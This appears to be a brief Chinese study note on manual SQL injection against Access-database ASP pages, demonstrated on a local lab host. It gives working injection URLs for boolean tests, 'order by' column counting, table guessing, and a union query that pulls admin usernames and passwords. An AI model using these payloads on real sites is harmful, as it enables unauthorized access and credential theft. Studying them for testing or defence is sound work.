





## 1、access数据库

access数据库与其他数据库不一样 他没有存储表的库，所以只能猜表。

## 2、access数据库结构

表、字段、数据

 

## 3、判断是否存在注入

### and 判断

http://127.0.0.1:99/ProductShow.asp?ID=104 and 1=1 正确页面

http://127.0.0.1:99/ProductShow.asp?ID=104 and 1=2 错误页面or 判断

### or方法判断

http://127.0.0.1:99/ProductShow.asp?ID=-104 or 1=2 错误页面

http://127.0.0.1:99/ProductShow.asp?ID=104 or 1=1 正常页面

## 4、判断字段数

### order by 判断当前表的字段数

http://127.0.0.1:99/shownews.asp?id=110 order by 10 正常

http://127.0.0.1:99/shownews.asp?id=110 order by 11 错误

 

 

## 5、猜表

http://127.0.0.1:99/shownews.asp?id=110 union select 1,2,3,4,5,6,7,8,9,10 from admin

将 admin 换成别的表

## 6、猜字段

在显示数字上的文字替换要猜的字段

 

## 7、查询数据

 

## 8、aceess数据库语句

select * from news where id=-110 union select 1,username,password,4,5,6,7,8,9,10 from admin

